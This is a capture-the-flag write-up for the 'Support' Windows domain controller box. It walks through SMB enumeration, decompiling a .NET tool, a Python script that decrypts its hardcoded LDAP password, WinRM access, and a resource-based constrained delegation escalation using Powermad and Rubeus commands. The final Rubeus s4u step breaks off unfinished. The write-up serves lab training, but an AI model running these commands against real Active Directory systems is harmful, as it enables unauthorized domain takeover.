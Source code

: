 # Support 10.10.11.174

### Reconnaissance

- port 53/tcp Simple DNS Plus                                                       
- port 88/tcp Microsoft Windows Kerberos (server time: 2024-01-05 13:50:49Z)        
- port 135/tcp Microsoft Windows RPC                                                 
- port 139/tcp Microsoft Windows netbios-ssn                                         
- port 445/tcp SMB
- port 464/tcp kpasswd5?
- port 593/tcp Microsoft Windows RPC over HTTP 1.0                                   
- port 3268/tcp LDAP (Domain: support.htb)
- port 3269/tcp LDAPS
- port 5985/tcp WinRM
- port 9389/tcp mc-nmf .NET Message Framing   
- port 49664/tcp msrpc
- port 49668/tcp msrpc
- port 49676/tcp ncacn_http Microsoft Windows RPC over HTTP 1.0
- port 49679/tcp msrpc

The namp scan of the LDAP port shows us the domain name of the target: support.htb

**SMB**

We can list SMB shares on the target with `smbclient -L \\\\support.htb`

![Shares](./pictures/smb-shares.png)

We can connect to the share and list the contents with `smbclient \\\\support.htb\\support-tools`

![Tools](./pictures/tools.png)

As the comment suggests, it contains various support tools. Most of them are well known except for
UserInfo.exe, and googling it doesn't give any useful information 

After downloading the zip and extracting the contents of UserInfo.exe.zip, we can use the `file` command and
see that it's a .Net PE that we can decompile with [ILSpy](https://github.com/icsharpcode/ILSpy)

![UserInfo.exe](./pictures/userinfo.png)

In ILSpy we find a couple of interesting Classes in the UserInfo.Services namespace: LdapQuery and Protected

![UserInfo.Services](./pictures/userinfo.services.png)

LdapQuery has a method called LdapQuery that is used to connect with the LDAP server on the target and the 
query method below is used to query the server using the connection established by LdapQuery

This gives us the username `ldap` (`support\\ldap` -> `domain\\username`)

![LdapQuery](./pictures/ldapquery.png)

The Protected Class contains a method getPassword that decrypts the cipher text stored in enc_password using
2 keys

![getPassword](./pictures/getpassword.png)

We can extract this code and create a .Net console application or use python to decrypt the password

```
#!/usr/bin/env python3
import base64

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
# XOR key
key = b"armando"
# byte 0xDFu -> 223 (u is C# suffix for uint byte value)
key2 = 223

password = ''

for i in range(0, len(enc_password)):
    password += chr(enc_password[i] ^ key[i % len(key)] ^ key2)

print(password)
```

Now that we have the username and password we can use `ldapsearch` or `ldapdomaindump` to query the server 
and enumerate the users and groups on the target

`ldapsearch -H ldap://support.htb:3268 -D ldap@support.htb -w 'password' -b "cn=Users,dc=support,dc=htb"`
`ldapdomaindump -u support\\ldap -p 'password' ldap://support.htb:3268 -o ldap -at SIMPLE`

### Exploitation

*The box appears to be broken currently as we should see a custom tag in the support user object but 
regardless of the tool used it's not visible*

Enumerating the users we find a custom tag on the support user which appears to be a password, and that they 
are a member of the Remote Management Users Group which allows us to use WinRM as the support user

![Remote Management Users](./pictures/remote-management-users.png)

Using `evil-winrm` we get a shell on the target

![evil-winrm](./pictures/evilwinrm.png)

### Privilege Escalation

Now that we have user credentials for the target we can enumerate the target

Based on the services we found during our scanning the target is an AD machine, so we can enumerate it with 
Bloodhound

Upload the SharpHound.exe or .ps1 version corresponding to our Bloodhound version and run it on the target

We then download the .zip output from SharpHound, start `neo4j` (`sudo neo4j start`), run `bloodhound`, and 
import the .zip into bloodhound

Looking at our current user `support@support.htb`, we see that they have Group Delegated Object Control 
(a group the user is a member of has control over an object) over the Domain Controller

The Shared Support Accounts Group has GenericAll permissions over the Domain Controller, aka full control

![Bloodhound](./pictures/bloodhound.png)
![Full Control](./pictures/full-control.png)
![RBCD](./pictures/rbcd-attack.png)

This means we can perform a Resource Based Constrained Delegation Attack to gain Admin privileges if three 
conditions are met

1. We need code execution as a Domain user in the `Authenticated Users` Group  
2. The `ms-ds-machineaccountquota` attribute to be > 0  
3. The Domain user that we have code execution with needs write privileges over a domain joined machine

We can check our current user is part of the Authenticated Users group with `whoami /groups` or Bloodhound

![Authenticated Users whoami](./pictures/authenticated-users.png)
![Authenticated Users Bloodhound](./pictures/authenticated-users-bloodhound.png)

Next is the `ms-ds-machineaccountquota` attribute, which we can query with `Get-ADObject`

We need to know the DistinguishedName of the Domain for `Get-ADObject`'s `-Identity` parameter, we can find 
that with `Get-ADDomain`

`Get-ADObject -Identity "DC=support,DC=htb" -Properties ms-ds-machineaccountquota`

![ms-ds-machineaccountquota](./pictures/msdsmachineaccountquota.png)

We already determined we satisfy number 3 in our inital enumeration so we can start performing the attack

First we need to add a new machine account to the target with [Powermad](https://github.com/Kevin-Robertson/Powermad/tree/master) and get the SID of the created machine account

`New-MachineAccount -MachineAccount owned -Password $(ConvertTo-SecureString Password -AsPlainText -Force)`

`Get-ADComputer -identity owned`

![owned$ SID](./pictures/machine-account.png)

Next we need to set `PrincipalsAllowedToDelagateToAccount` to our machine account on the DC, this will 
configure the `msds-allowedtoactonbehalfofotheridentity` attribute for us (We could also use PowerView to 
set the attribute directly)

`Set-ADComputer -Identity DC -PrinicpalsAllowedToDelegateToAccount owned$`

![Sanity Check](./pictures/owned-check.png)

We can also check the value of `msds-allowedtoactonbehalfofidentity`

`Get-ADComputer DC -properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity`

![check](./pictures/owned-allowed.png)

Now we need to use the s4u Rubeus module to generate a Kerberos ticket on behalf of the Administrator account

First we need the hash of the machine account's password

`Rubeus.exe hash /password:Password /user:owned$ /domain:support.htb`

![password hash](./pictures/rubeus-hash.png)

Now we can use s4u to create a Kerberos ticket for the Administrator account

`Rubeus.exe s4u /user:owned$ /rc4:A4F49C406510BDCAB6824EE7C30FD852 /impersonateuser:Administrator /msdsspn`



### Lessons Learned

- Check file type of any uncommon PE's to see if we can decompile them  
- DNSpy and ILSpy for decompiling .Net  
- Specify auth type for ldapdomaindump with `-at SIMPLE/NTLM`  
- Custom object tags aren't always visible with ldapsearch and ldapdomaindump
- Resource Based Constrained Delegation (RBCD) attacks require:  
    - code execution as a domain user that belongs to the Authenticated Users Group  
    - `ms-ds-machineaccountquota` attribute to be > 0 (Use `Get-ADObject`)  
    - current user needs `WRITE` privileges (`GenericAll/WriteDACL`) over a domain joined machine  
- When using Rubeus s4u, try cifs as the service for /msdsspn if PowerView's `Get-DomainUser username samaccountname,msds-allowedtodelegateto` returns nothing

